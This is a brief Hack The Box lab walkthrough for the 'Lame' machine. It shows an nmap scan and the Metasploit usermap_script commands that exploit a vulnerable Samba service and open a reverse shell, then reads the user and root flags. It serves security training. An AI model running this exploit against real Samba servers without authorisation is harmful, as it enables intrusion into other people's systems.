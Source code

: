 # LAME - Machine

10.10.10.3 Easy Linux

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitaton](#exploitation)
- [Walkthrough](#walkthrough)

## Tools

- nmap
- Metasploit

## Enumeration

- At first we use nmap (Network Mapping tool) to scan the box ip. When we run it we got list of some open ports and services running on those ports. On the Lame box we can see, open ports and services are, port 21 for vsftpd 2.3.4, port 22 for SSH, port 129 and 445 for Samba smbd 3.X-4.X `nmap -sV 10.10.10.3`
- When we google about those running services to gather information about those services, we get Samba smbd 3.X is vulnerable and fortunately an metasploit module is there to exploit the service.

## Exploitation

- Using metasploit we can use the exploit to shell the box.

    ```bash
    use exploit/multi/samba/usermap_script
    msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
    msf exploit(multi/samba/usermap_script) > set lhost tun0
    msf exploit(multi/samba/usermap_script) > exploit 
    ```
  
- Now open home folder using terminal and find the user.txt.
   
  ```bash
  cd home
  ls
  cd makis
  ls
  cat user.txt
  ```

- Now goto root folder and find the root.txt.
  
  ```bash
  cd root
  ls
  cat root.txt
  ```

## Walkthrough

<a title="Lame HackTheBox 10.10.10.3 YouTube walkthrough" href="https://www.youtube.com/watch?v=sq0qVn3iLm0&list=PL6vr4adYIJuxZ6tzpWnpici8JX0sdPhwx&index=3" target="_blank">https://www.youtube.com/watch?v=sq0qVn3iLm0</a>


Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
